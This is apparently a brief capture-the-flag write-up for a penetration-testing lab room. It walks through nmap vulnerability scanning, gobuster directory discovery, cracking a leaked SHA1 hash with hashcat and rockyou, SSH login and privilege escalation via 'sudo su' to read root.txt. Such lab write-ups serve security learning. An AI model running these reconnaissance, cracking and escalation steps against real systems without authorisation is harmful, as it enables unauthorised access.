# Write Up for CC Pen Testing Room Final


1. First I run 'nmap --script=vuln -sV IP'

I get that there's a /secret directory.

2. Then, 'gobuster dir IP/secret -x txt' 

Open IP/secret/secret.txt in a web browser and get 

nyan:046385855FC9580393853D8E81F240B66FE9A7B8
After assuming different hash modes...

3. 'hashcat -a 0 -m 100 046385855FC9580393853D8E81F240B66FE9A7B8 /usr/share/wordlists/rockyou.txt' 

This gives the password

4. 'ssh nyan@IP''

 enter the password given.
 
5. 'ls', 'cat user.txt', and 'sudo -l' 

We find that we can type 'sudo su' for privesc

6. 'cd /root', 'ls', and 'cat root.txt'

And...
# BOOM!
There's the password we need.

